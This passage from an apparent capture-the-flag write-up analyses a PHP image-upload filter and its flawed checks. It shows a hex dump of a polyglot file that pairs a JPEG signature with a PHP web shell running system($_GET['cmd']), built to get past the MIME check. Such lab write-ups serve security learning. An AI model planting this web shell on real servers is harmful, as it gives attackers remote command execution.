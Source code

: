 As we can see in the above code, the file is first checked using the check_file_type function loaded from lib.php to determine if the file
has a MIME data type that starts with "image/". The code also checks to see if the uploaded file extension is .jpg, .png, .gif, or .jpeg. If both checks pass the 
uploaded file is moved to the upload directory with the name changed to match the uploading IP address. 

The if statement with the data type check also contains a check that the uploaded file is less than 60000 bytes. This 
appears to be a programming error, since the use of the logical and would allow a non-image file with a size greater than 60000 bytes to pass
this check. This may have been an avenue for exploitation, but I chose not to look into this much further.

![source for the file verification functions from lib.php](/posts/networked/lib_file_check.png)

Looking more closely at the file verification code, we can see that either finfo_file or mime_content_type is called on the file to check
to see if the file uploaded is actually an image. Experimenting with uploads, I found that it's possible to fool both of these function calls
by crafting a file that contains the file signature for a JPEG and has a .jpg extension on the end but contains PHP code within it.
```
root@kali:80# xxd payload.php.jpg
00000000: ffd8 ffe0 0010 4a46 4946 0001 0a3c 3f70  ......JFIF...<?p
00000010: 6870 2065 6368 6f20 7379 7374 656d 2824  hp echo system($
00000020: 5f47 4554 5b27 636d 6427 5d29 3b20 3f3e  _GET['cmd']); ?>
00000030: 0a  
```
Just uploading this file, even as a .jpg, will not work. Firefox apparently does better detection of files than PHP does, and sets the Content-Type
header in the POST request issued by uploading this file to 'application/x-php'. 
